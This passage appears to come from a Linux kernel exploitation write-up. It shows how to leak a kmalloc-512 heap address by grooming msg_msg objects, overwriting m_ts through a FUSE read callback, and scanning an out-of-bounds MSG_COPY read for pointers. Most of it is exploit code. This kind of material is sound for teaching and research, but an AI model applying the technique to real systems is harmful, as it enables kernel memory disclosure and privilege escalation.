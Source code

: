 ## Leaking Heap Address

It will be similar to leaking kernel address. Instead of spraying with [shm_file_data](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#shm_file_data) we will use msg_msg's msg_seg kmalloc-512 to leak kmalloc-512 pointer. The reason why i choose kmalloc-512 is because it seemed less used then other ones such as kmalloc-4096 or kmalloc-1024.

With this heap leak, we have control over user controlled heap (msg_msg kmalloc-512). We can use this pointer to write data in [msg_msg->data] and point our pc to it if we want.

Code section for this is in function call `leak_kmalloc_4096()` and fuse handler `read_callback()` -> `if (strcmp(path, "/heap") == 0)`

```mermaid!
flowchart LR
1[leak_kmalloc_4096] --> 2[read_callback] --> 3[read_callback's /heap path section]
```

### Creating kmalloc-512 and overriding m_ts msg_msg Size

```cpp
msg_msg_next_heap_groom(0x200, 10, 0);

// allocate over old chunk;
send_msg(qid, message, size - 0x30 - 0x8, 0);
// debug();

msg_header evil;
size = 0x1400;
memset((void *)&evil, 0, sizeof(msg_header));
evil.ll_next = (void *)0x4141414141414141;
evil.ll_next = (void *)0x4242424242424242;
evil.m_type = 1;
evil.m_ts = size;
memset(buffer, 0, sizeof(buffer));
memcpy(buffer, (void *)&evil, 0x20);
// here we override the overlapped msg_msg with our own buffer
memcpy(buf, buffer, 0x20);
return 0x20;
```

### Reading kmalloc-512 pointers to find User Controlled Heap Address

```cpp
char recieved[0x2000] = {0};
// max size before we use msg_seg. (if we go over this we will just segfault)
int size = 0x1400;
// we should recv more now
get_msg(qid, recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

uint64_t cur_addr = 0;
uint64_t heap_leak = 0;
// for (int i = 0xff8 / 8; i < (0xff8 / 8) + 0x10; i++)
for (int i = 0xf00 / 8; i < size / 8; i++)
{
    cur_addr = *(uint64_t *)(recieved + i * 8);
    printf("[%u] @ %u: %p\n", i, i * 8, (void *)cur_addr);

    // this is m_ts of next msg_msg. we want to get ll_prev
    // typedef struct
    // {
    //     void *ll_next;
    //     void *ll_prev;
    //     long m_type;
    //     size_t m_ts;
```